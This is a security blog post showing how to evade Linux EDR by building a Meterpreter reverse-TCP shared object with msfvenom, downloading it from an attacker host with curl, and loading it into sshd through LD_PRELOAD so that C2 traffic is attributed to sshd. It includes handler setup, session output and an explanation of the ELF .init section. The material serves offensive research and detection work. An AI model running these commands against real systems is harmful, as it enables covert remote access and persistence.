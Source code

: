 ```yaml
---
layout: post
title: "Linux EDR Evasion With Meterpreter and LD_PRELOAD"
date: 2020-02-06
categories: ld_preload linux edr evasion meterpreter
permalink: /linux-edr-evasion-meterpreter-ld-preload/
---
```


Everyone has their favorite adversary technique to research and mine is LD_PRELOAD process injection because it's pretty versatile. It lets you hook functions to manipulate output, and it can also let you trip up defenders by injecting code into arbitrary processes for execution. In this post, I'll walk through how an adversary might combine Meterpreter with LD_PRELOAD to hide malicious activity under a legitimate Linux system process.

## The Setup

To get started, I'm working with a Kali Linux machine as my attacker system and a CentOS 8 system as my victim. You don't have to limit yourself to this setup, but it's what works for me at the moment.

On the victim system, the only access needed is code execution and the ability to transfer a payload.

On my attacker machine, I need to generate a Meterpeter payload within a shared object library format. To do this, we can use `msfvenom`.

```
# msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.57 LPORT=2022 -f elf-so > meterpreter.so
```

Next, we need a way to transfer `meterpreter.so` to the victim system. This may be done via a `curl` command or another method of downloading/uploading files.

In my case, I used NGINX to host the SO library from my Kali machine for download:

```
# cp meterpreter.so /var/www/html/
# systemctl start nginx
```

Finally, we need to set up a handler to receive the connection and use it in Metasploit. To do this, we can work with `msfconsole`.

```
# msfconsole

# msf5 > use exploit/multi/handler
# msf5 > set payload linux/x64/meterpreter/reverse_tcp
# msf5 > set LHOST 10.10.10.57
# msf5 > set LPORT 2022
# msf5 > run

[*] Started reverse TCP handler on 10.10.10.57:2022
```

And now we move to our victim system for execution!

## The Execution

On my victim system, I downloaded the SO library using a simple `curl` command:

```
$ curl -O http://10.10.10.57/meterpreter.so
```

From here I can pick any process I want to attribute execution to, as long as it isn't statically compiled. In this case, I'm choosing `sshd` since it often makes network connections and because some network admins use `tcp/2022` to obscure their SSH service availability.

```
$ LD_PRELOAD=./meterpreter.so sshd
```

Once executed, control is never actually passed to `sshd`, and the process execution is controlled by `meterpreter.so` as it reports back for commands. It appears that the process is frozen, but it really isn't.

On the Kali machine I see:

```
[*] Sending stage (3021284 bytes) to 10.10.10.51
[*] Meterpreter session 1 opened (10.10.10.57:2022 -> 10.10.10.51:39314) at 2020-02-06 20:05:00 -0600
```

From Kali I can join the Meterpreter session and get access at the permission level of the victim's user account:

```
meterpreter > sysinfo
Computer        : cent8-01.westeros.local
OS              : CentOS 8.0.1905 (Linux 4.18.0-80.el8.x86_64)
Architecture    : x64
BuildTuple      : x86_64-linux-musl
Meterpreter     : x64/linux
```

If we go to investigate with an EDR product, Auditd/Auditbeats logs, or osquery, the network connection and any actions will be attributed to `sshd`. This requires a defender to be much sharper on their game to spot malicious activity and understand the behavior of system processes. Depending on the actions we want to perform and the ports available for C2, we could potentially do the same with `httpd`, `smtpd`, `vsftpd`, etc.

## How Does It Work?

Most of the time we can safely assume that SO libraries work in a similar fashion to DLLs on Windows. That is, the library must have an exported symbol that should be called for code to execute. We can inspect SO libraries for exported symbols using the `nm` command. Howver, when we inspect our generated `meterpreter.so` library we can notice something odd:

```
# nm -D meterpreter.so
nm: meterpreter.so: no symbols
```

Oddly enough, it doesn't look like our `meterpreter.so` has any symbols to call, so how did `sshd` know to execute the code within the SO library? This is because of a feature of the ELF binary format.

SO libraries follow the ELF binary format and include a section called `.init`. Any code placed within this section will execute when the library is loaded by a process and before control is passed to the process itself. The section is usually used by compilers for global constructors, but we can put nearly anything there for exploitation. When `msfvenom` creates its `elf-so` payloads, it embeds payloads within a template designed to house the payload within the `.init` section for execution. That way, no process should need knowledge of symbols within the library for execution.

This is also the way payloads generated/used by the [Zombie Ant Farm](https://github.com/dsnezhkov/zombieant) project work.

The use of a `.init` section also has an interesting limitation when combined with preloading- it can only be used effectively when you define `LD_PRELOAD` for a single process. When executing Meterpreter in this fashion, the victim process will appear hung. This is because the Meterpreter code continuously executes before control is passed to the victim process's main function. The rest of the process instructions will not execute until Meterpreter exits. This means that if you export `LD_PRELOAD` to leverage this SO library or write the library path into `ld.so.preload`, it will cause serious instability. If you use a preload method that causes `meterpreter.so` to load into numerous or all processes, it will cause loads of processes, even ones needed for system operation, to hang immediately after loading the SO library. So, no bueno.

## Is It Useful?

Eh, it depends. We obviously already need code execution and a method of downloading code to a victim for this to be possible. I could see this being useful when combined with an RCE against publicly-available services to get a stable shell. That said, a simpler and safer route in terms of stability could also be the execution of a Python C2 agent. In the case of a Python agent, it would be slightly harder to cause the attribution of activity to a system process. This is not going to be an initial access method, it would be more useful for long-term evasion and persistence when combined with a `.bash_profile` or `.bashrc` command execution.